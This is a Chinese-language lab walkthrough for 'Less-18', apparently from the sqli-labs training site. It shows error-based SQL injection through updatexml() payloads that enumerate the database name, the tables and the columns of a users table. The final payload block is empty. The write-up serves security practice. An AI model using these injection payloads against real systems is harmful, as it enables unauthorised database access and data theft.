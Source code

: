 ```yaml
---
title: Less - 18
date: 2023-03-15T12:39:17Z
lastmod: 2023-03-15T12:57:49Z
---
```


# Less - 18

---

# 通关教程

---

## 1、判断注入

---

输入用户名和密码以后，我们发现屏幕上回显了我们的IP地址和我们的User Agent

​![image](assets/image-20230315124330-tg5jbwo.png)​

我们发现输入'时系统报错，证明有SQL注入漏洞，这里有完整的错误回显，根据错误回显我们判断闭合方式为'#，并且为字符型注入，所以我们利用报错注入攻击

​![image](assets/image-20230315124606-e8pco6z.png)​

---

## 2、查看数据库

---

```html
'and updatexml(1,concat(0x7e,(database())),0x7e),1)-- #
```

​![image](assets/image-20230315124743-os9juzo.png)​

---

## 3、查看数据表

---

```html
' and updatexml(1,concat('~',substr((select group_concat(table_name) from information_schema.tables where table_schema='security'),1,31)),3) and '
```

​![image](assets/image-20230315125241-zgdceze.png)​

---

## 4、查看字段

---

```html
' and updatexml(1,concat('~',substr((select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),1,31)),3) and '
```

​![image](assets/image-20230315125546-jexhnmr.png)​

---

## 5、查看字段值

---

```
```

​![image](assets/image-20230315125738-p0czmpa.png)​
